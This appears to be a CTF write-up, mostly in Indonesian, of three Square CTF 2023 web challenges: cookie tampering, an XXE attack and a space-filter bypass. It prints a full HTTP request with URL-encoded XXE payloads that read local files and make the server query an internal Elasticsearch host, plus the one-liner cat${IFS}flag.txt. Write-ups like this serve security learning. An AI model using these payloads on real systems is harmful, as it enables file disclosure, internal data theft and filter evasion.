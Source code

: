```yaml
---
title: Square CTF
date: 2023-11-12 00:00:00 +/-TTTT
categories: [CTFs Archive, 2023 CTF]
tags: [CTFs]     # TAG names should always be lowercase
comments: true
---
```


- Tags: international
- Status: Done
- pwned: 3

# Be the admin

we need to become admin by changing the cookie

1. admin biasa ganti cookie
2. A nya gede

# Just go around

path traversal

```python
POST /accept HTTP/1.1
Host: 184.72.87.9:8013
Content-Length: 282
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://184.72.87.9:8013
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://184.72.87.9:8013/post
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

postXml=%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%20%3f%3e%3c!DOCTYPE%20foo%20%5b%20%3c!ENTITY%20xxe%20SYSTEM%20%22file:///%22%3e%20%5d%3e%3cpost%20author%3d%22CTF%20Participant%22%20id%3d%220%22%20title%3d%22*%22%3e%3cmessage%3e%26xxe%3b%3c%2fmessage%3e%3c%2fpost%3e
```

dari sini kita bisa analisa source code nya adapun flag di dalam service tersebut hal ini dikarenakan.

setelah saya membaca controller flag seperti nya terdapat di service lain yaitu

        `.builder(HttpHost.create("http://"+System.getProperty("ELASTIC_HOST", "db")+":9200"))`

flag tersebut terdapat di sebuah host elastic search untuk leak all data kita dapat menggunkan query berikut:

[`http://db:9200/_search?pretty=true`](http://db:9200/_search?pretty=true)

sehingga payload menjadi

```python
%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%20%3f%3e%3c!DOCTYPE%20foo%20%5b%20%3c!ENTITY%20xxe%20SYSTEM%20%22http://db:9200/_search?pretty=true%22%3e%20%5d%3e%3cpost%20author%3d%22CTF%20Participant%22%20id%3d%220%22%20title%3d%22*%22%3e%3cmessage%3e%26xxe%3b%3c%2fmessage%3e%3c%2fpost%3e
```

# Sandbox

terdapat blacklist space

`cat${IFS}flag.txt`



